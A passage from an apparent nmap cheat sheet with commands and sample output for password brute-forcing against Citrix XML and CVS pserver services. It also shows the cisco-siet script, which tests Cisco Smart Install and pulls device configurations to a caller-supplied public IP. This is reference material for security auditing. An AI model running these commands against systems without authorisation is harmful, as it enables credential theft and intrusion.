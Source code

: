      |PORT     STATE SERVICE    REASON
     |8080/tcp open  http-proxy syn-ack
     | citrix-brute-xml:
     |   Joe:password => Must change password at next logon
     |   Luke:summer => Login was successful
     |_  Jane:secret => Account is disabled


### Cisco - Cvs - Test whether host is vulnerable or not

    nmap -p 4786 -v 192.168.0.1	# By default, it will just test whether host is vulnerable or not
    nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse

### You can pass argument to get config
# If you are attacking public ip, make sure to provide your public ip to the script (cisco-siet.addr=<PUBLIC_IP>)
    nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse --script-args "cisco-siet.get"


### Cvs - Brute-Force
_Performs Brute-Force password auditing against CVS pserver authentication_
     
     root@hostname: ~/ # nmap -p 2401 --script cvs-brute 192.168.1.12

     |2401/tcp open  cvspserver syn-ack
     | cvs-brute:
     |   Accounts
     |     hotchner:francisco - Account is valid
     |     reid:secret - Account is valid
     |   Statistics
     |_    Performed 544 guesses in 14 seconds, average tps: 38



### Cvs Repository - Brute-Force 
_Attempts to guess the name of the CVS repositories hosted on the remote server_ With knowledge of the correct repository name, usernames and passwords can be guessed_
     
     root@hostname: ~/ # nmap -p 2401 --script cvs-brute-repository 192.168.1.12

     |PORT     STATE SERVICE    REASON
     |2401/tcp open  cvspserver syn-ack
     | cvs-brute-repository:
     |   Repositories
     |     /myrepos
     |     /demo
     |   Statistics
     |_    Performed 14 guesses in 1 seconds, average tps: 14
